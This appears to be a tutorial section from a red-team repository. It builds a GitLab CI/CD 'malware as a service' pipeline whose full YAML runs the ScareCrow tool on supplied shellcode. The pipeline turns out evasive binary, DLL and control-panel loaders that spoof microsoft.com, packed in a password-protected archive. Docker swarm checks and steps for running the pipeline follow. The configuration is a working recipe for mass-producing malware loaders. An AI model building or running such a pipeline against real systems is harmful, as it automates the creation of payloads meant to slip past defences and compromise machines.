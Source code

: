 ## Your First CI/CD Pipeline

We are now ready to write our first CI/CD pipeline. CI/CD pipelines in Gitlab use a YAML configuration file which is saved in the root directory of a repository and named "**.gitlab-ci.yml**".

The documentation for the grammar used in this YAML file is located here at https://docs.gitlab.com/ee/ci/.

For this first effort, I have created a three stage pipeline that will generate some ScareCrow malware payload artifacts, ZIP them up and make available after the pipeline run completes.

Gitlab will automatically create a standard ZIP file for any artifacts that exist at the end of a pipeline run, however I like to use a 7Zip file within the outer ZIP file so that I can apply a passphrase.

### Pipeline Stages

In a typical CI/CD pipeline we would see stages such as *build*, *test*, and *deploy* for example. For our purposes we have a similar arrangement however we are not really doing any testing in this initial effort.

I am going to name our pipeline stages:
* PreProcess
* BakeMalware
* PostProcess

It is useful to know that Gitlab CI/CD will predefine a number of environment variables which we can leverage within our pipeline YAML file. These environment variables are documented here at https://docs.gitlab.com/ee/ci/variables/predefined_variables.html.

For the purposes of our pipeline, we make use of the **$CI_COMMIT_SHORT_SHA** variable to create a unique directory for each run of the pipeline.

**PreProcess** will be used to prepare the ground.  It might be some directory structure we need to create, or anything else we think we need before creating the malware payload itself.  In our case, we are creating a directory and creating a symbolic link to the **garble** binary so that ScareCrow will not have to download it.

**BakeMalware** will be used to actually execute ScareCrow a number of times in order to create the required binary artifacts we desire.

**PostProcess** will be used for 7ZIP archive creation purposes. The 7ZIP archive will be created in a directory which is then further zipped and made available as an artifact to download when the pipeline completes.

### The Pipeline Trigger

It is typically for a CI/CD pipeline to be triggered whenever a "**git commit**" occurs, however we can exert a little more control over this using a *workflow* statement in our YAML file.

For the purposes of generating malware loaders, we will need to supply some shellcode, thus we create a "**shellcode**" directory and configure the workflow such that any file changes in the "**shellcode**" directory will trigger a pipeline run.

### Full Listing of Gitlab YAML file

Below is a complete listing of the current "**.gitlab-ci.yml**" file. The major sections are:

* stages: listing all of the pipeline stages to be executed in sequence
* workflow: defining the pipeline trigger condition(s)
* PreProcess: execute any/all actions in the PreProcess stage.
* ScareCrow: configured as BakingMalware stage
* PostProcess: zip up files, cleanup and publish artifacts

```
stages:
    - PreProcess
    - BakeMalware
    - PostProcess

workflow:
    rules:
        - changes:
            - shellcode/*

PreProcess:
    stage: PreProcess
    tags:
        - maas
    script:
        - |
            mkdir -p /payloads/${CI_COMMIT_SHORT_SHA}/.lib
            ln -s /usr/local/bin/garble /payloads/${CI_COMMIT_SHORT_SHA}/.lib/garble

ScareCrow:
    stage: BakeMalware
    tags:
        - maas
    script:
        - |
            cd /payloads/${CI_COMMIT_SHORT_SHA}
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader binary -domain microsoft.com
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader dll -domain microsoft.com
            ScareCrow -I $CI_PROJECT_DIR/shellcode/shellcode_x64.bin -Loader control -domain microsoft.
com

PostProcess:
    stage: PostProcess
    tags:
        - maas
    script:
        - |
            DEST=${CI_PROJECT_DIR}/ScareCrowPayloads
            rm -rf /payloads/${CI_COMMIT_SHORT_SHA}/.lib
            cd /payloads
            7z a "${DEST}/${CI_COMMIT_SHORT_SHA}.7z" "${CI_COMMIT_SHORT_SHA}/*" -p"infected"
            rm -rf /payloads/${CI_COMMIT_SHORT_SHA}
    artifacts:
        name: ScareCrowPayloads
        paths:
            - ScareCrowPayloads/
        expire_in: 1 day
```

### Testing your Pipeline

#### Status of Backend Docker Infrastructure

Before testing the new pipeline, you should double check and ensure that the docker service stack is up and running. Login to your primary docker server, and issue some status checking commands to ensure that everything is running as expected.

* ```docker node ls``` is used to check the status of your docker swarm deployment
* ```docker service ls``` gives you information about your deployed service stack
* ```docker service ps``` lists running containers associated with your specific service
* ```docker ps``` lists all of the running containers on the host you are logged into

Shown below is some sample output of a few of these commands:

```
$ docker node ls
ID                            HOSTNAME   STATUS    AVAILABILITY   MANAGER STATUS   ENGINE VERSION
tzl5tqd5saou5ifxvj8opezmx *   docker01   Ready     Active         Leader           24.0.7
z22hcsipj4t2wjbohilptj9qn     docker02   Ready     Active                          24.0.7

$ docker service ls
ID             NAME        MODE         REPLICAS               IMAGE         PORTS
0bl6ihvy2yc7   maas_maas   replicated   4/4 (max 2 per node)   maas:latest

$ docker service ps maas_maas
ID             NAME          IMAGE         NODE       DESIRED STATE   CURRENT STATE               ERROR     PORTS
zsuswajwrmr7   maas_maas.1   maas:latest   docker01   Running         Running about an hour ago
jz3ms7fvcipi   maas_maas.2   maas:latest   docker02   Running         Running about an hour ago
0bvdxt9arhg8   maas_maas.3   maas:latest   docker01   Running         Running about an hour ago
ofjacom0xky8   maas_maas.4   maas:latest   docker02   Running         Running about an hour ago

```

#### Executing the Pipeline from Gitlab

1. In the repository menus, select Build -> Pipelines.

![Alt text](image-6.png)

2. Next, click on the **Run Pipeline** button at the top right corner of the web page. On the following page, you can select a code branch which for this excercise will already be "**main**". Now, click the **Run Pipeline** button in the lower left of the page.

You will see a web page that shows the status of the pipeline running.

![Alt text](image-9.png)

3. When the pipeline completes all of the stages, a green checkmark will appear under each stage. At any time, you can click on the stage *job* itself to see the output of any of the individual job actions in your pipeline script.

![Alt text](image-8.png)

4. At completion time, the status should change to *passed* and all green checkmarks will be displayed.

![Alt text](image-10.png)

5. The artifacts generated by your 7ZIP script actions will be available in a drop down menu which you can then download.

![Alt text](image-11.png)

